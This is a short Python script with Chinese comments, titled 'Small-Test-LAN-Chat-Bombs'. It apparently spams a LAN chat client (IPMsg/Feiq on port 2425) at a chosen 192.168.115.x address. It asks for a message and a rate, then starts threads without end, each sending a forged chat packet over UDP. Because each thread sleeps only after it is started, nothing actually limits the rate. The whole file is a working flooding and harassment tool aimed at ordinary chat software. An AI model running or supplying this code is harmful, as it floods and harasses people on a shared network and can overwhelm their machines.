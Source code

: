 # Small-Test-LAN-Chat-Bombs

import socket
import time
import threading
# broadcast_ip = "xxx.xxx.xxx.xxx"  #ip 地址
broadcast_ip = input("请输入ip的后两位或者三位：")
broadcast_ip = "192.168.115." + broadcast_ip
# 1. 创建套接字
udp_socket = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
udp_socket.setsockopt(socket.SOL_SOCKET, socket.SO_BROADCAST, 1)
send_data = input("请输入要发送的数据：")
times = int(input("请输入每秒发送次数："))
# time.sleep(1/times)

while True:
    def thread():
        time.sleep(1 / times)
        # send_data = input("请输入要发送的数据：")

        # 3. 发送数据
        msg = "1:%d:6楼:607:32:" % int(time.time()) + send_data
        udp_socket.sendto(msg.encode("gbk"), (broadcast_ip, 2425))
    pp = threading.Thread(target=thread)
    pp.start()

# 6. 关闭套接字
# udp_socket.close()
